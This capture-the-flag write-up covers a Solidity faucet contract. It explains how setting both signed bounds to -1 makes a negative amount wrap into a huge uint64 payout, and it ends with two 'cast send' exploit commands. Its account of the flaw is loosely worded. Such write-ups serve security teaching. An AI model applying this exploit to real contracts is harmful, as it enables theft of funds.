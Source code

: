 ```yaml
---
showFullContent: false
readingTime: true
---
```


## Lucky Faucet


## code / Description
```solidity
function setBounds(int64 _newLowerBound, int64 _newUpperBound) public {
    require(_newUpperBound <= 100_000_000, "100M wei is the max upperBound sry");
    require(_newLowerBound <=  50_000_000,  "50M wei is the max lowerBound sry");
    require(_newLowerBound <= _newUpperBound);
    upperBound = _newUpperBound;
    lowerBound = _newLowerBound;
}
```

```solidity
function sendRandomETH() public returns (bool, uint64) {
    int256 randomInt = int256(blockhash(block.number - 1));
    uint64 amountToSend = uint64(randomInt % (upperBound - lowerBound + 1) + lowerBound); 
    bool sent = msg.sender.send(amountToSend);
    return (sent, amountToSend);
}
```

## Challenge Analysis

The "Lucky Faucet" challenge involves a smart contract designed to send a random amount of ETH based on a pseudo-random number derived from the blockhash and the set bounds. The critical flaw lies in the handling of integer underflow when setting the bounds, allowing for unexpected behavior when calculating the amount of ETH to send.


## Solution

The solution exploits the type casting vulnerability by setting the upperBound and lowerBound such that the calculation randomInt % (upperBound - lowerBound + 1) + lowerBound results in a negative value. When this negative value is cast to an unsigned integer (uint64), it becomes a very large positive number, thereby exploiting the contract to send a large amount of ETH. This is achieved by calling setBounds with values that lead to a negative outcome for the amount to send, and then invoking sendRandomETH to trigger the flawed logic and cast the negative result to an unexpectedly large positive value.

Adjust both upperBound and lowerBound to -1, ensuring that the expression randomInt % (upperBound - lowerBound + 1) consistently equals zero. Consequently, the amountToSend will always be equal to lowerBound.


## Final Exploit
```bash
cast send --rpc-url <RPC_URL> --private-key <PRIVATE_KEY> <TARGET_CONTRACT_ADDRESS> "setBounds(int64,int64)" -- -1 -1 
```

```bash
cast send --rpc-url <RPC_URL> --private-key <PRIVATE_KEY> <TARGET_CONTRACT_ADDRESS> "sendRandomETH()"
```

> Authors - [Mohammad Eminem](https://github.com/m-amini-sss)